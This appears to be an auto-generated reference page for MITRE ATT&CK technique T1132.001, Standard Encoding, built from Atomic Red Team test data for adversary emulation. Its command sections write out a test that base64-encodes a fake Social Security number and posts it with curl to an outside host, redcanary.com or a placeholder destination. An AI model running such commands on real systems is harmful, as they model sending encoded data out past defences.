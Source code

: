 
# Standard Encoding

## Description

### MITRE Description

> Adversaries may encode data with a standard data encoding system to make the content of command and control traffic more difficult to detect. Command and control (C2) information can be encoded using a standard data encoding system that adheres to existing protocol specifications. Common data encoding schemes include ASCII, Unicode, hexadecimal, Base64, and MIME.(Citation: Wikipedia Binary-to-text Encoding) (Citation: Wikipedia Character Encoding) Some data encoding systems may also result in data compression, such as gzip.

## Aliases

```

```

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: None
* Permissions: ['User']
* Platforms: ['Linux', 'macOS', 'Windows']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1132/001

## Potential Commands

```
echo -n 111-11-1111 | base64
curl -XPOST #{base64_data}.redcanary.com
echo -n 111-11-1111 | base64
curl -XPOST MTExLTExLTExMTE=.#{destination_url}
```

## Commands Dataset

```
[{'command': 'echo -n 111-11-1111 | base64\n'
             'curl -XPOST #{base64_data}.redcanary.com\n',
  'name': None,
  'source': 'atomics/T1132.001/T1132.001.yaml'},
 {'command': 'echo -n 111-11-1111 | base64\n'
             'curl -XPOST MTExLTExLTExMTE=.#{destination_url}\n',
  'name': None,
  'source': 'atomics/T1132.001/T1132.001.yaml'}]
```

## Potential Detections

```json

```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Atomic Red Team Test - Data Encoding: Standard Encoding': {'atomic_tests': [{'auto_generated_guid': '1164f70f-9a88-4dff-b9ff-dc70e7bf0c25',
                                                                                'description': 'Utilizing '
                                                                                               'a '
                                                                                               'common '
                                                                                               'technique '
                                                                                               'for '
                                                                                               'posting '
                                                                                               'base64 '
                                                                                               'encoded '
                                                                                               'data.\n',
                                                                                'executor': {'command': 'echo '
                                                                                                        '-n '
                                                                                                        '111-11-1111 '
                                                                                                        '| '
                                                                                                        'base64\n'
                                                                                                        'curl '
                                                                                                        '-XPOST '
                                                                                                        '#{base64_data}.#{destination_url}\n',
                                                                                             'name': 'sh'},
                                                                                'input_arguments': {'base64_data': {'default': 'MTExLTExLTExMTE=',
                                                                                                                    'description': 'Encoded '
                                                                                                                                   'data '
                                                                                                                                   'to '
                                                                                                                                   'post '
                                                                                                                                   'using '
                                                                                                                                   'fake '
                                                                                                                                   'Social '
                                                                                                                                   'Security '
                                                                                                                                   'number '
                                                                                                                                   '111-11-1111.',
                                                                                                                    'type': 'string'},
                                                                                                    'destination_url': {'default': 'redcanary.com',
                                                                                                                        'description': 'Destination '
                                                                                                                                       'URL '
                                                                                                                                       'to '
                                                                                                                                       'post '
                                                                                                                                       'encoded '
                                                                                                                                       'data.',
                                                                                                                        'type': 'string'}},
                                                                                'name': 'Base64 '
                                                                                        'Encoded '
                                                                                        'data.',
                                                                                'supported_platforms': ['macos',
                                                                                                        'linux']}],
                                                              'attack_technique': 'T1132.001',
                                                              'display_name': 'Data '
                                                                              'Encoding: '
                                                                              'Standard '
                                                                              'Encoding'}}]
```

# Tactics


* [Command and Control](../tactics/Command-and-Control.md)


# Mitigations


* [Network Intrusion Prevention](../mitigations/Network-Intrusion-Prevention.md)


# Actors


* [APT19](../actors/APT19.md)

* [Lazarus Group](../actors/Lazarus-Group.md)
    
* [Patchwork](../actors/Patchwork.md)
    
* [BRONZE BUTLER](../actors/BRONZE-BUTLER.md)
    
* [APT33](../actors/APT33.md)
    
* [MuddyWater](../actors/MuddyWater.md)
    
* [Tropic Trooper](../actors/Tropic-Trooper.md)
    
* [Sandworm Team](../actors/Sandworm-Team.md)
    
